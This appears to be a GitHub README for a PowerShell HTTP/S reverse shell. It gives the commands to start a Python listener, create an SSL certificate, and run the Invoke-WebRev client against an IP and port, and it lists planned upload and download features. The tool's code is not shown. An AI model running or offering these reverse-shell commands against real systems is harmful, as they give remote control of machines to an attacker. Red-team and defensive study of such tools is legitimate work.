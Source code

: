 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Reverse Shell without encryption:
    Invoke-WebRev -ip IP -port PORT
```
```
Reverse Shell with encryption:
    Invoke-WebRev -ssl -ip IP -port PORT
```

# Future features
    - Proxy Aware
    - Autocomplete
    - Upload function
    - Download function
